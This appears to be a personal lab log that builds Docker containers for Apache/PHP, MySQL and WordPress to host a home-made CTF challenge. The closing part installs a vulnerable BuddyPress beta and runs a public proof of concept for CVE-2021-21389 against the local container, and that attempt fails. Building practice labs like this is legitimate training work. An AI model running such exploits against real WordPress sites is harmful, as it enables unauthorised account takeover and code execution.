@ubuntu:~/Docker/ctfpractice$ sudo docker image rm ctfpractice
Error response from daemon: conflict: unable to remove repository reference "ctfpractice" (must force) - container d62d97cee747 is using its referenced image 944741c9f63c

@ubuntu:~/Docker/ctfpractice$ sudo docker rm d62d97cee747
d62d97cee747

@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE               COMMAND                  CREATED        STATUS                      PORTS     NAMES

@ubuntu:~/Docker/ctfpractice$ sudo docker image rm ctfpractice
Untagged: ctfpractice:latest
Deleted: sha256:944741c9f63c022dae887d9ff44359e1ed0b616ec920b95f5401a1b99a311f35
Deleted: sha256:ff601f59a5952f3cdea460d180fd2672808e5af2f4a1d30719944c9577cb87d3
Deleted: sha256:abcd7f9771f0242604b8cec95f18abd93eff801fe5813504192259e94236f9bc

ubuntu:~/Docker/ctfpractice$ sudo docker image ls
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
ubuntuctfpractice   latest    4c9a5492d0e6   4 hours ago    200MB
ubuntudocker        latest    ed4d2cebf439   29 hours ago   210MB
webexample          latest    ed4d2cebf439   29 hours ago   210MB
wordpress           latest    c3c92cc3dcb1   4 days ago     616MB
mysql               5.7       c20987f18b13   5 days ago     448MB
ubuntu              latest    ba6acccedd29   2 months ago   72.8MB
```

<br><br>
...and now the image is gone.<br>
so great lessons learned about the relationships between containers and images.<br>

<br><br>
Now to go back to the hard drive again and see the size after I delete all of thes images.<br>

```
BEFORE:
@ubuntu:~/Docker/ctfpractice$ sudo df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        98G   54G   39G  58% /

AFTER:
@ubuntu:~/Docker/ctfpractice$ sudo df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        98G   53G   41G  57% /
```


<br>

[Docker Docs](https://docs.docker.com/engine/reference/commandline/image_rm/) - image commands

<hr>

## EXTRA LEARNING FOR DOCKER WORKINGS
### NOTE:  tagging is a thing... perhaps an image may be deleted if you remove the tag
I'll play with this later, but it's a fun reference for further learning.
<br><br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS                      PORTS     NAMES
bd5d9ad1bfbd   ubuntudocker   "/bin/sh -c '/usr/sb…"   22 hours ago   Exited (137) 22 hours ago             hopeful_moser
4d32a663871e   wordpress      "docker-entrypoint.s…"   22 hours ago   Created                               some-wordpress
cfc2f0b85293   webexample     "/bin/sh -c '/usr/sb…"   29 hours ago   Exited (137) 23 hours ago             clever_driscoll

@ubuntu:~/Docker/ctfpractice$ sudo docker image rm ubuntudocker
Untagged: ubuntudocker:latest

@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS                      PORTS     NAMES
bd5d9ad1bfbd   ed4d2cebf439   "/bin/sh -c '/usr/sb…"   22 hours ago   Exited (137) 22 hours ago             hopeful_moser
4d32a663871e   wordpress      "docker-entrypoint.s…"   22 hours ago   Created                               some-wordpress
cfc2f0b85293   webexample     "/bin/sh -c '/usr/sb…"   29 hours ago   Exited (137) 23 hours ago             clever_driscoll
```

<br>
Also, I want to know more about each referenced SHA while deleting... why were there so many? <BR>
NOTE: I referenced the TAG when deleting this mysql image... fun stuff!
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker image rm mysql:5.7
Untagged: mysql:5.7
Untagged: mysql@sha256:f2ad209efe9c67104167fc609cca6973c8422939491c9345270175a300419f94
Deleted: sha256:c20987f18b130f9d144c9828df630417e2a9523148930dc3963e9d0dab302a76
Deleted: sha256:6567396b065ee734fb2dbb80c8923324a778426dfd01969f091f1ab2d52c7989
Deleted: sha256:0910f12649d514b471f1583a16f672ab67e3d29d9833a15dc2df50dd5536e40f
Deleted: sha256:6682af2fb40555c448b84711c7302d0f86fc716bbe9c7dc7dbd739ef9d757150
Deleted: sha256:5c062c3ac20f576d24454e74781511a5f96739f289edaadf2de934d06e910b92
Deleted: sha256:8805862fcb6ef9deb32d4218e9e6377f35fb351a8be7abafdf1da358b2b287ba
Deleted: sha256:872d2f24c4c64a6795e86958fde075a273c35c82815f0a5025cce41edfef50c7
Deleted: sha256:6fdb3143b79e1be7181d32748dd9d4a845056dfe16ee4c827410e0edef5ad3da
Deleted: sha256:b0527c827c82a8f8f37f706fcb86c420819bb7d707a8de7b664b9ca491c96838
Deleted: sha256:75147f61f29796d6528486d8b1f9fb5d122709ea35620f8ffcea0e0ad2ab0cd0
Deleted: sha256:2938c71ddf01643685879bf182b626f0a53b1356138ef73c40496182e84548aa
Deleted: sha256:ad6b69b549193f81b039a1d478bc896f6e460c77c1849a4374ab95f9a3d2cea2
```

<br><br>

<hr>

# TIME TO REBUILD AND PLAY MORE
Now that I've deleted all of the images, I will rebuild using my dockerfile thus downloading new images and creating a new ctfpractice image.<br>
Before I begin, I want to make sure I have a clear goal in mind...<br>
<br>

### NEW GOAL FOR THIS IMAGE

- build Ubuntu image
- install appropriate packages
- give container (or perhaps the image) a hostname
- add the IP and hostname to the /etc/hosts on the container
- run apache2 with a spash webpage
<br><br>

Starting with the dockerfile, I change a few things to get the installs done and set up an apache config file.<br>
NOTE:  I'm keeping all of the old stuff in the file for reference.<br>

```
FROM ubuntu:latest

# ENVIRONMENTALS
ENV DEBIAN_FRONTEND=noninteractive

# UPDATE AND UPGRADE
RUN apt update && apt-get upgrade -y

# INSTALL FOR IFCONFIG AND WEBSERVER
RUN apt install -y --no-install-recommends \
		net-tools \
		apache2

# INSTALL PHP
RUN apt install -y --no-install-recommends \
		php \
		php-cli \
		php-fpm \
		php-json \
		php-common \
		php-mysql \
		php-zip \
		php-gd \
		php-mbstring \
		php-curl \
		php-xml \
		php-pear \
		php-bcmath \
		php-curl \
		php-json \
		php-cgi \
		php-mysql

# CLEAN UP ALL OF THE INSTALLATIONS
RUN apt clean

# WRITE APACHE CONFIGS
RUN echo "ServerName Localhost" >> /etc/apache2/apache2.conf
RUN apache2ctl configtest
RUN a2dissite 000-default
# RUN rm/etc/apache2/sites-available/000-default.conf

# OPEN PORT 80
EXPOSE 80

# NO LOGER NEEDED, BUT KEPT FOR REFERENCE
# VOLUME /tmp/wordlists
# VOLUME /tmp/ctf

CMD ifconfig | grep inet > /tmp/ip.txt
CMD echo "Container IP Address: "
CMD cat ip.txt
# CMD hostnamectl set-hostname ctfpractice.the-petting-zoo.com

# START APACHE
CMD /usr/sbin/apache2ctl -D FOREGROUND
```

<br>

### NOTE: the environment variable was to avoid human interaction during the build.
With this build, it still tried to do a tzdata configuration as part of net-tools.<br>

```
Configuring tzdata
------------------

Please select the geographic area in which you live. Subsequent configuration
questions will narrow this down by presenting a list of cities, representing
the time zones in which they are located.

  1. Africa      4. Australia  7. Atlantic  10. Pacific  13. Etc
  2. America     5. Arctic     8. Europe    11. SystemV
  3. Antarctica  6. Asia       9. Indian    12. US
Geographic area: ^C
```

<br><br>

And finally, we run the docker to see if it all worked...
```
sudo docker run -p 8005:80 --hostname=ctfprac --name=apachetpz -d ctfpractice
7b52146ac96f6d4493969123ee6fd098d7c2aeffb5503397995b5b038b9d000b
admin@ubuntu:~/Docker/ctfpractice$ sudo docker ps -a
CONTAINER ID   IMAGE         COMMAND                  CREATED         STATUS         PORTS                                   NAMES
7b52146ac96f   ctfpractice   "/bin/sh -c '/usr/sb…"   4 seconds ago   Up 4 seconds   0.0.0.0:8005->80/tcp, :::8005->80/tcp   apachetpz
```

<br><br>
Awesome!  Now we have a build that worked, and is running apache2 with the hostname... <br>
but all of the things didn't happen.  There's nothing in /tmp (supposed to be ip.txt) <br>
This was because ipconfig wasn't avalable on the system... probably because of that environment variable <br>
for my learning, I'll build it again an manually input the tzdata to confirm that net-tools gets installed <br>
<br><br>

Got a wierd error on that one:
```
Reading package lists...
Building dependency tree...
Reading state information...
E: Unable to locate package  #--no-install-recommends
The command '/bin/sh -c apt install -y \ #--no-install-recommends 		net-tools 		apache2' returned a non-zero code: 100
```
<br><br>

So I changed a couple things... I got rid of the --no-install-recommend (that was supposed to make the build smaller)<br>
and I added a different environment variable to automatically set tzdata:

```
ENV TZ=America/Los_Angeles
RUN ln -snf /usr/share/zoneinfo/$TZ /etc/localtime && echo $TZ > /etc/timezone
```

<br>
Now ifconfig works just fine, but it didn't put my ip.txt file in /tmp. <br>
Pretty simple to see why... it's running intermediate containers for each CMD<br>
NOTE: That may be because I'm using CMD instad of RUN (I'll check that)<br>

```
FROM THE BUILD:

Step 12/15 : CMD ifconfig | grep inet > /tmp/ip.txt
 ---> Running in af96c63541aa
Removing intermediate container af96c63541aa
 ---> 3ab563e438d1
Step 13/15 : CMD echo "Container IP Address: "
 ---> Running in 92833a1f649c
Removing intermediate container 92833a1f649c
 ---> bc212ec1f041
Step 14/15 : CMD cat ip.txt
 ---> Running in 4acc1bb821bf
```
<br><br>
But at least all of my installs worked, and I can do ifconfig manually... <br>
date even shows correctly (ENV worked)<br>
also, the hostname flag worked,<br>
and I can get to apache using localhost with the port <br>
<br>

```
root@ctfprac:/# hostname
ctfprac
```


<br><br>
NOTE:  to check on apache2, I had to use the service command... again, don't use system controls!

```
root@ctfprac:/# systemctl status apache2
System has not been booted with systemd as init system (PID 1). Can't operate.
Failed to connect to bus: Host is down
root@ctfprac:/# service apache2 status
 * apache2 is running
```

<br><br>
From the history command... I may have figured out the SHA thing from before:<br>
During the build, the commands are run on top of eachother while the final image is at the top.<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker history ctfpractice
IMAGE          CREATED         CREATED BY                                      SIZE      COMMENT
18d2cadc3ca1   3 minutes ago   /bin/sh -c #(nop)  CMD ["/bin/sh" "-c" "/usr…   0B        
87cb94c465a8   3 minutes ago   /bin/sh -c #(nop)  EXPOSE 80                    0B        
6547ac16bdc8   3 minutes ago   /bin/sh -c echo "# Add IP here " >> /etc/hos…   0B        
27e29fad0b88   3 minutes ago   /bin/sh -c a2dissite 000-default                0B        
b0aea7375258   3 minutes ago   /bin/sh -c apache2ctl configtest                0B        
27a3edd02ad8   3 minutes ago   /bin/sh -c echo "ServerName Localhost" >> /e…   7.25kB    
8dd335f4cf81   3 minutes ago   /bin/sh -c ifconfig | grep inet > /tmp/ip.txt   113B      
2ebc275e74d4   3 minutes ago   /bin/sh -c apt clean                            0B        
666ed3173d60   3 minutes ago   /bin/sh -c apt install -y   php   php-cli   …   103MB     
25a7115f7b35   3 minutes ago   /bin/sh -c apt install -y   net-tools   apac…   114MB     
1ad707716eb2   4 minutes ago   /bin/sh -c apt update && apt-get upgrade -y     33.1MB    
274ca0da8167   4 minutes ago   /bin/sh -c ln -snf /usr/share/zoneinfo/$TZ /…   59B       
fbd369ad0032   4 minutes ago   /bin/sh -c #(nop)  ENV TZ=America/Los_Angeles   0B        
ba6acccedd29   2 months ago    /bin/sh -c #(nop)  CMD ["bash"]                 0B
```
<br><br>
COOL!  Success on what I set out to do...  here's everything after the build:<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -p 8005:80 --hostname=ctfprac --name=apachetpz -d ctfpractice
518b823e90c0b9a3b22f133f760b3435b78cdad3dc5550afcdcda9be8ff07603

@ubuntu:~/Docker/ctfpractice$ sudo docker ps
CONTAINER ID   IMAGE         COMMAND                  CREATED         STATUS         PORTS                                   NAMES
518b823e90c0   ctfpractice   "/bin/sh -c '/usr/sb…"   3 seconds ago   Up 2 seconds   0.0.0.0:8005->80/tcp, :::8005->80/tcp   apachetpz

@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it apachetpz /bin/bash
root@ctfprac:/# ls /tmp/
ip.txt
root@ctfprac:/# cat /tmp/ip.txt 
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        inet 127.0.0.1  netmask 255.0.0.0
root@ctfprac:/# hostname
ctfprac
root@ctfprac:/# cat /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	ctfprac
```

<br><br>

And finall, here's the cleaned up version of my dockerfile:<br>

```
FROM ubuntu:latest

# ENVIRONMENTALS
ENV TZ=America/Los_Angeles
RUN ln -snf /usr/share/zoneinfo/$TZ /etc/localtime && echo $TZ > /etc/timezone

# UPDATE AND UPGRADE
RUN apt update && apt-get upgrade -y

# INSTALL FOR IFCONFIG AND WEBSERVER
RUN apt install -y \ 
		net-tools \
		apache2

# INSTALL PHP
RUN apt install -y \ 
		php \
		php-cli \
		php-fpm \
		php-json \
		php-common \
		php-mysql \
		php-zip \
		php-gd \
		php-mbstring \
		php-curl \
		php-xml \
		php-pear \
		php-bcmath \
		php-curl \
		php-json \
		php-cgi \
		php-mysql

# CLEAN UP ALL OF THE INSTALLATIONS
RUN apt clean

# RECORD IP ADDRESS
RUN ifconfig | grep inet > /tmp/ip.txt

# WRITE APACHE CONFIGS
RUN echo "ServerName Localhost" >> /etc/apache2/apache2.conf
RUN apache2ctl configtest
RUN a2dissite 000-default

# OPEN PORT 80
EXPOSE 80

# START APACHE
CMD /usr/sbin/apache2ctl -D FOREGROUND
```


<hr>

## TEST PHP IN THE DOCKER
Now it's time to test those PHP installs.  Now that I know my build is basic, but good, I can do more...<br> 
<br>

### NEW GOAL FOR THIS IMAGE

- Create files on my host to push to the image (php test file)
- prune all volumes from deleted images (sudo docker volume prune)
- attach a volume for the run (reference the -v flag from earlier)
- run the php file from the attached volume using apache

<br><br>

Too easy... <br>
<br><br>
Created a php file (yes, I know I got ahead of myself with the mysql part... but getting there)<br>
<br>

```
<html>
<head>
    <title>PHP Test</title>
</head>
    <body>
    <?php echo '<p>Hello World</p>';

    // In the variables section below, replace user and password with your own MySQL credentials as created on your server
    $servername = "localhost";
    $username = "webuser";
    $password = "password";

    // Create MySQL connection
    $conn = mysqli_connect($servername, $username, $password);

    // Check connection - if it fails, output will include the error message
    if (!$conn) {
        die('<p>Connection failed: </p>' . mysqli_connect_error());
    }
    echo '<p>Connected successfully</p>';
    ?>
</body>
</html>

```

Ran with:<br>

```
sudo docker run -d -p 8005:80 --name=phptpz -v /tmp/ctfpractice/phpfile:/var/www/html:rw ctfpractice
```


<br><br>

Now I'm going to change it on the host to index.php and see what happens...<br>
<br>


<br><br>

Sweet!
<br><br>

At this point, I'll be able to create a php application that is vulnerable to something.<br>
This will be the basic framework for all web challenges in the CTF...<br>
<br><br>
Following the trail I left behind, I can get the IP and do an NMAP scan...<br>
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it phptpz cat /tmp/ip.txt
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        inet 127.0.0.1  netmask 255.0.0.0
```

NMAP shows the open connection to the IP:<br>

```
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
```

<br><br>
Lastly for this part of my learning... seeing what running a new container will do for the network:<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d -p 8006:80 --name=phptpz2 -v /tmp/ctfpractice/phpfile:/var/www/html:rw ctfpractice
038d1e07465c2702c8d1ea28f424c2a70846ffcbcc0af3a079ffd092091fc9db

@ubuntu:~/Docker/ctfpractice$ sudo docker ps 
CONTAINER ID   IMAGE         COMMAND                  CREATED          STATUS          PORTS                                   NAMES
038d1e07465c   ctfpractice   "/bin/sh -c '/usr/sb…"   6 seconds ago    Up 5 seconds    0.0.0.0:8006->80/tcp, :::8006->80/tcp   phptpz2
47f32fde0a75   ctfpractice   "/bin/sh -c '/usr/sb…"   18 minutes ago   Up 18 minutes   0.0.0.0:8005->80/tcp, :::8005->80/tcp   phptpz

@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it phptpz2 ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.3  netmask 255.255.0.0  broadcast 172.17.255.255
```

<br>
and as expected, it created a new container with its own IP... good to know!


<hr>

## USERS! - we need 'em
Now that we have a good environment with apache running and files that can be changed as needed, I need to create users.<br>
The logical next step would be to create the mysql container and link it... but that'll be during chellenge development.<br>
This should involve creating the user, and giving them permission to run commands (perhaps GTFObins accessible?)<br>
<br><br>
I came across this in 

[Docker Docs](https://docs.docker.com/engine/reference/builder/#syntax)<br>

but it mods a directory... same with chown and other commands using ADD... see documentation

```
ADD [--chown=<user>:<group>] <src>... <dest>
ADD [--chown=<user>:<group>] ["<src>",... "<dest>"]
```
<br><br>
Instead, I'd like to concentrate on the USER portion of the documentation.<br>
Here's an excerpt:<br>

```
The USER instruction sets the user name (or UID) and optionally the user group (or GID) to use when running the image and for any RUN, CMD and ENTRYPOINT instructions that follow it in the Dockerfile.
```
<br><br>
It looks like you create the user, and run commands by the user after...<br>
Each of these dockerfile instructions run in order... so I plan to use that.<br>
A fun thing to use for thise type of thing would be ENV variables for user working directories.<br>
<br>
It should be pretty easy to put all of this together...<br>
<br>
Here's some examples for my references as I build this...<br>

```
ENV DIRPATH=/path

WORKDIR $DIRPATH/file.txt

FOR SUDO:
RUN useradd -rm -d /home/user_name -s /bin/bash -g root -G sudo -u 1001 user_name

FOR NON SUDO:
RUN useradd -rm -d /home/user_name -s /bin/bash -u 1001 user_name
```

<br><br>
DONE FOR TONIGHT (this was all in one day), BUT I'LL BE BACK...

<br><br>
Stayed up to do more...  working on user.  Turns out, I don't have to delete the image each time, jsut rebuild it...<br>
So I added a line to the dockerfile:<br>

```
# CREATE USER
RUN useradd -rm -d /home/tpzuser -s /bin/bash -u 1001 tpzuser
```


```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d -p 8000:80 --name=phptpz -v /tmp/ctfpractice/phpfile:/var/www/html:rw ctfpractice
6325d1347321738dcc1a7af76e30b459799e9e55e052c7235bf4e7426b31aa80

@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it phptpz /bin/bash
root@6325d1347321:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@6325d1347321:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[...]
tpzuser:x:1001:999::/home/tpzuser:/bin/bash
```

<br><br>
So with this new user, everything is working fine. <br>
I can just add the file into the build... going to try that. <br>
<br>
added this to the dockerfile:<br>
<br>

```
# ADD A FLAG
RUN echo "tpz{flag}" >> /home/tpzuser/user.txt
```
<br>

and worked like a champ! <br>
<br>

```
@ubuntu:~/Docker/ctfpractice$ sudo docker run -d -p 8000:80 --name=phptpz -v /tmp/ctfpractice/phpfile:/var/www/html:rw ctfpractice
38496ee4bae46701d9b7edd1e6a8dd055c46e044d290ad11b615f31363e573e7

@ubuntu:~/Docker/ctfpractice$ sudo docker exec -it phptpz /bin/bash

root@38496ee4bae4:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@38496ee4bae4:/# cd /home/tpzuser/
root@38496ee4bae4:/home/tpzuser# ls
user.txt
root@38496ee4bae4:/home/tpzuser# cat user.txt 
tpz{flag}
```
<br><br>

<hr>

## NOW FOR MYSQL
Time to build an image and container for MySQL... pretty sure one already exists.<br>

<br><br>
NO REALLY... NOW I'M DONE FOR THE NIGHT!  WILL DO MORE TOMORROW...
<br><br>
Back to it...<br>
NOTE: The /etc/hosts addition will come in handy:<br>

```
Your container will have lines in /etc/hosts which define the hostname of the container itself as well as localhost and a few other common things. The --add-host flag can be used to add additional lines to /etc/hosts
```
[Docker Docs](https://docs.docker.com/engine/reference/run/) - RUN command references <br>

This will be great if we're running services and want to reference multipe containers easily.
<br><br>
Okay, back to MySql... going to search for a good image and run it.<br>
Pretty simple to pull the latest image.  Here's a great tutorial:<br>

[Phoenixnap.com](https://phoenixnap.com/kb/mysql-docker-container) - Tutorial on MySQL containers <br>
<br><br>

So here's the breakdown:<br>

```
PULL THE IMAGE
sudo docker pull mysql/mysql-server:latest

RUN AND TAG THE IMAGE
sudo docker run --hostname=[host_name] -p 6603:3306 --name=[container_name] -d [image_tag_name]

CHECK LOGS FROM THE HOST
apt-get install mysql-client
sudo docker logs [container_name]

CHANGE CONFIGURATIONS THROUGH BASH
sudo docker exec -it [container_name] bash
mysql> ALTER USER 'root'@'localhost' IDENTIFIED BY '[newpassword]';

MAKE CUSTOM CONFIGS AVAILABLE TO MYSQL 
sudo mkdir -p /root/docker/[container_name]/conf.d
sudo nano /root/docker/[container_name]/conf.d/my-custom.cnf

DOCKER RUN COMMAND
docker run \
--detach \
--name=[container_name] \
--env="MYSQL_ROOT_PASSWORD=[my_password]" \
--publish 6603:3306 \
--volume=/root/docker/[container_name]/conf.d:/etc/mysql/conf.d \
mysql

OR STORAGE ON THE HOST VIA RUN COMMAND
docker run \
--detach \
--name=[container_name] \
--env="MYSQL_ROOT_PASSWORD=my_password" \
--publish 6603:3306 \
--volume=/root/docker/[container_name]/conf.d:/etc/mysql/conf.d \
--volume=/storage/docker/mysql-data:/var/lib/mysql \
mysql
```

<br><br>
Easy Peasy!<br>
At this point, I can write my php applications to connect to the running container.<br>
I don't feel like there's any need for a dockerfile for MySQL... just use the RUN flags. <br>
<br><br>

Running the container requires you to specify the root password and some other things, so keep that in mind.<br>
By the way, I simply made a bash scrip to run that docker RUN command... easier that way.<br>
But all connections were solid:<br>

```
@ubuntu:~/Docker/ctf/ctfmysql$ vim runctfmysql.sh
@ubuntu:~/Docker/ctf/ctfmysql$ chmod +x runctfmysql.sh
@ubuntu:~/Docker/ctf/ctfmysql$ sudo ./runctfmysql.sh


@ubuntu:~/Docker/ctf/ctfmysql$ mysql -uroot -ptestpassword -h127.0.0.1 -P6603 
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 8.0.27 MySQL Community Server - GPL

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.00 sec)

mysql> exit
```
<br><br>

<hr>

## CREATE A CHALLENGE
Now that we have Apache working in an Ubuntu container and MySQL ready, I'll put them together to create a challenge.<br>
<br><br>
First... download a wordpress installation... I'll use 5.7.2 <br>

[Wordpress v5.7.2](https://wordpress.org/download/releases/) - Wordpress Archive

Then... download a vulnerable plugin... I'll use BuddyPress v7.0-beta<br>

[Vulnerable BuddyPress](https://buddypress.org/2020/11/buddypress-7-0-0-beta2/) - BuddyPress 7.0.0-beta2

Then... change permissions to the www directory... I'll use my own script.<br>
<br>

```
#!/bin/bash

echo "This script will:"
echo "1. CHANGE PERMISSIONS TO $1"
echo ""

read -p "Do you want to run this shell? [y/n]" answer
if [[ $answer = y ]] ; then

echo "Changing permissions to $1"
echo ""

chown -R www-data:www-data $1
find $1 -type d -exec chmod 750 {} \;
find $1 -type f -exec chmod 640 {} \;
ls -alh $1

echo "done..."

fi
```
<br><br>
And now put it all together using the containers above.<br>
Run the mysql container script, then grab its IP address using this:<br>

```
#!/bin/bash

# USAGE:
# sudo ./scriptname.sh [container_name]

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $1
```
<br><br>
You'll need to change the wp-config.php file and add the database to your mysql (standard Wordpress).<br>
Just in case you're new to this... here's the breakdown:<br>

<br><br>
excerpts from your Wordpress config file:<br>

```
@ubuntu:/tmp/ctfpractice/ctfWPbuddypress/www$ cat wp-config.php 
[...]
define( 'DB_NAME', 'BEMYBUDDY' );
define( 'DB_USER', 'buddyadmin' );
define( 'DB_PASSWORD', 'buddypassword' );
define( 'DB_HOST', '172.17.0.2' );
[...]]
```

<br><br>
Your MySQL commands to add database and user from that config file:<br>

```
FROM YOUR HOST USING MYSQL-CLIENT
@ubuntu:~/Docker/ctf/ctfWPbuddypress/mysql$ mysql -uroot -ptestpassword -h172.17.0.2 -P3306

mysql> create database BEMYBUDDY;
Query OK, 1 row affected (0.00 sec)

mysql> CREATE USER 'buddyadmin'@'172.17.0.3' IDENTIFIED BY 'buddypassword';
Query OK, 0 rows affected (0.01 sec)

mysql> GRANT ALL ON BEMYBUDDY.* TO 'buddyadmin'@'172.17.0.3';
Query OK, 0 rows affected (0.00 sec)

mysql> flush privileges;
Query OK, 0 rows affected (0.00 sec)
```

<br><br>
When running the Apache docker, I see that although I changed the permissions on the host, they're not changed on the dontainer.<br>
I can use the same script to take care of this...<br>
Also, I figured out that I didn't install vim into the image... need to fix that (my favorite editor)<br>
<br><br>
Now first, check to make sure that the Apache container will talk to the MySQL container using the creds:<br>
<br>

```
@ubuntu:~/Docker/ctf/Defaults/Scripts$ sudo docker exec -it ctfWPbuddypresswww bash
root@177907cb5c64:/#

root@177907cb5c64:/# sudo apt install mysql-client

root@177907cb5c64:/# mysql -uroot -ptestpassword -h172.17.0.2 
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| BEMYBUDDY          |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

root@177907cb5c64:/# mysql -ubuddyadmin -pbuddypassword -h172.17.0.2 
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| BEMYBUDDY          |
| information_schema |
+--------------------+
```
<br>
Good to go on that!<br>
I can also use my php file above (I told you I'd get back to it) to show that apache works with php and databases.<br>
I change the connections to:<br>

```
    $servername = "172.17.0.2";
    $username = "buddyadmin";
    $password = "buddypassword";
```

<br>


<br><br>
And after doing the famous 5-minute wordpress install... we're into our installation.<br>

<br>



<br><br>
Now let's install the vulnerable plugin... <br>

<br>



<br><br>
OOPS...<br>

<br>



<br><br>
I'll fix that realy quick...<br>
... and proceeded to break the container, ha!<br>
<br>

Added this to the end of the file /etc/php/7.4/apache2/php.ini<br>

```
upload_max_filesize = 200M
post_max_size = 200M
memory_limit = 500M
max_execution_time = 600
max_input_vars = 1000
max_input_time = 400
```
<br><br>

And then tried to restart apache... but it killed the container and threw and error...<br>

```
root@79086762910c:/etc/php/7.4/apache2# service apache2 restart
 * Restarting Apache httpd web server apache2                                                                                                                       pidof: can't read from 5401/stat

@ubuntu:~/Docker/ctf/Defaults/Scripts$ sudo docker exec -it ctfWPbuddypresswww bash
[sudo] password for admin: 
Error response from daemon: Container 79086762910c273a3289c77e0234842eaf00d15b0f159f227563e8b8d4313575 is not running

@ubuntu:~/Docker/ctf/Defaults/Scripts$ sudo docker start ctfWPbuddypressmysql
ctfWPbuddypressmysql

ubuntu:~/Docker/ctf/Defaults/Scripts$ sudo docker exec -it ctfWPbuddypresswww bash
Error response from daemon: Container 79086762910c273a3289c77e0234842eaf00d15b0f159f227563e8b8d4313575 is not running
```
<br><br>

Althought I love to troubleshoot this type of thing, I would like to proceed with this chellenge creation.<br>
So it's time to simply rebuild the container like I was going to do anyway in the end.<br>
This is a good time to check if mysql kept everything I've done, along with the wp-config files.<br>
This is also why I keep making those bash scripts to run everything for me. <br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/www$ sudo ./runctfWPbuddypress.sh 
5158aed4d0b638cb792eecb3fb3b4c4e6dfa1127f0ce9e73f7116ba2e301ac7d

@ubuntu:~/Docker/ctf/Defaults/Scripts$ sudo ./find_container_ip.sh ctfWPbuddypresswww
172.17.0.3
```
<br><br>
Yep, everything's exactly the same.  I may as well rebuild the image acording to what I want at this point.<br>
need to add vim and the php.ini file.  I know there's an easier way, but using this for now.<br>

```
ADDED TO dockerfile

# UPDATE PHP.INI FILE
RUN echo "  " >> /etc/php/7.4/apache2/php.ini
RUN echo "upload_max_filesize = 200M" >> /etc/php/7.4/apache2/php.ini
RUN echo "post_max_size = 200M" >> /etc/php/7.4/apache2/php.ini
RUN echo "memory_limit = 500M" >> /etc/php/7.4/apache2/php.ini 
RUN echo "max_execution_time = 600" >> /etc/php/7.4/apache2/php.ini
RUN echo "max_input_vars = 1000" >> /etc/php/7.4/apache2/php.ini
RUN echo "max_input_time = 400" >>/etc/php/7.4/apache2/php.ini
```
<br><br>
And now the upload worked...<br>
<br>



<br><br>

<hr>

## EXTRA LEARNING FOR DOCKER WORKINGS
### NOTE:  Create and use volumes instead of the host system volumes
When I did a reboot on my ubuntu host, all of my databases and web files went away... no worries because I had everything saved.<br>
I did an experiement and rebuilt, but created a volume within docker and used that to mount the files... they stayed upon reboot.<br>
So I simply changed my run script to include the new volume.<br>

```
CREATE THE VOLUME
@ubuntu:~$ sudo docker volume create --name=ctfWPbuddyvolumemysql ctfWPbuddyvolumemysql

VIEW THE VOLUME
@ubuntu:~$ sudo docker volume ls
DRIVER    VOLUME NAME
local     995415b86cba68d65c3909ab5e0e597eb0ae3c7609bb6d3a042a86cc92a0a545
local     ctfWPbuddyvolumemysql
local     ctfWPbuddyvolumewww
```
<br><br>
To get the files into the volumes, just use the docker cp command.<br>

[Docker Docs](https://docs.docker.com/engine/reference/commandline/cp/) - Docker copy reference

<br>
I made sure to test this with another reboot... it worked just fine.<br>
Now back to it...<br>
Buddypress is now installed and activated, and survives reboots.<br>

<br>



<br><br>

<hr>
Let's exploit this buddy!<br>
This installation should contain a vulnerability for CVE-2021-21389<br>
A simple google will give a great resource for Proof of Concept (google:  CVE-2021-21389 POC)<br>

[CVE-2021-21389 PoC](https://github.com/HoangKien1020/CVE-2021-21389) - HoangKien1020's script

<br>
So just do a wget to your attack machine and follow the directions...<br>

```
@ubuntu:~/Docker/ctf/ctfWPbuddypress/CVE-2021-21389$ python3 CVE-2021-21389.py http://172.17.0.3 test 1234 whoami
[+] Try to register ...
[-] Can't register because registration is disabled!
```
